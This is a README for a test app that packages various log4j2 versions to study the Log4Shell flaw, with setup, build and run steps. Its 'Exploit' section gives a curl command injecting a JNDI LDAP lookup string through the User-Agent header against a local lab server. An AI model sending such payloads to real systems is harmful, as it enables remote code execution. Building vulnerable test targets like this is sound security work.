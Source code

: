 # Example App for log4j2 testing purposes

### Setup

You will need to install:

```
docker
docker-compose
```

If you want to run the resulting JAR files directly on your host, you will need to install JDK8 or JDK11 depending on
what testing is to be performed. 

> Note: Currently the project targets only those JDK versions

### Build

You first need to build all the JAR files (if desired, test single versions see `Build JAR for single version`). 

```
sh -x ./build/build.sh
```

> NOTE: Customize for the versions you want to create


If you want to run a build manually; this is the command

```
LOG4J_VERSION=2.6.1 mvn clean assembly:assembly -DdescriptorId=jar-with-dependencies
```

You must set the LOG4J_VERSION env var or the pom is invalid


### Run

Manually running one version on a host directly: 

> NOTE: This assumes you have the proper JRE version installed!

```
PORT=8080 java -jar <jar> # You must set the PORT or it will error!
```

Running inside of a docker container (see docker-compose.yml for additional info)

```
docker-compose up [image]
```


### Exploit

Send a properly formated jdni:ldap message as your user agent, example:

```
curl 127.0.0.1:8080/ -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}'
```


### Build JAR for single version

Where the first argument is the Java version and the second is the LOG4J_VERSION.  Once built, and individual version
can be started with docker-compose via `docker-compose up log4j_1.8_2.15.0` (see docker-compose.yml for configured
versions).

```
sh -x ./build/build_one.sh 1.8 2.15.0
```
